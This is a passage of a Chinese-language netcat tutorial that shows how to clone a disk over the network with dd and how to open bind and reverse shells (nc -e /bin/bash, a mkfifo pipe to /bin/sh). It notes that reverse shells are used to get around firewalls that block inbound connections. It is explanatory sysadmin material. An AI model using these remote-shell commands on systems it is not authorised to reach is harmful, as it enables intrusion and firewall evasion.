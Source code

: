 克隆Linux PC很简单，假如你的系统在磁盘/dev/sda上

Server

$dd if=/dev/sda | nc -l 1567
Client
$nc -n 172.31.100.7 1567 | dd of=/dev/sda
dd是一个从磁盘读取原始数据的工具，我通过netcat服务器重定向它的输出流到其他机器并且写入到磁盘中，它会随着分区表拷贝所有的信息。但是如果我们已经做过分区并且只需要克隆root分区，我们可以根据我们系统root分区的位置，更改sda 为sda1，sda2.等等。
8，打开一个shell

我们已经用过远程shell-使用telnet和ssh，但是如果这两个命令没有安装并且我们没有权限安装他们，我们也可以使用netcat创建远程shell。

假设你的netcat支持 -c -e 参数(默认 netcat)

Server

$nc -l 1567 -e /bin/bash -i
Client
$nc 172.31.100.7 1567
这里我们已经创建了一个netcat服务器并且表示当它连接成功时执行/bin/bash
假如netcat 不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell

Server

$mkfifo /tmp/tmp_fifo
$cat /tmp/tmp_fifo | /bin/sh -i 2>&1 | nc -l 1567 > /tmp/tmp_fifo
这里我们创建了一个fifo文件，然后使用管道命令把这个fifo文件内容定向到shell 2>&1中。是用来重定向标准错误输出和标准输出，然后管道到netcat 运行的端口1567上。至此，我们已经把netcat的输出重定向到fifo文件中。
说明:

从网络收到的输入写到fifo文件中

cat 命令读取fifo文件并且其内容发送给sh命令

sh命令进程受到输入并把它写回到netcat。

netcat 通过网络发送输出到client

至于为什么会成功是因为管道使命令平行执行，fifo文件用来替代正常文件，因为fifo使读取等待而如果是一个普通文件，cat命令会尽快结束并开始读取空文件。

在客户端仅仅简单连接到服务器

Client

$nc -n 172.31.100.7 1567
你会得到一个shell提示符在客户端
反向shell

反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

服务端

$nc -l 1567
在客户端，简单地告诉netcat在连接完成后，执行shell。
客户端

$nc 172.31.100.7 1567 -e /bin/bash
现在，什么是反向shell的特别之处呢 
反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。
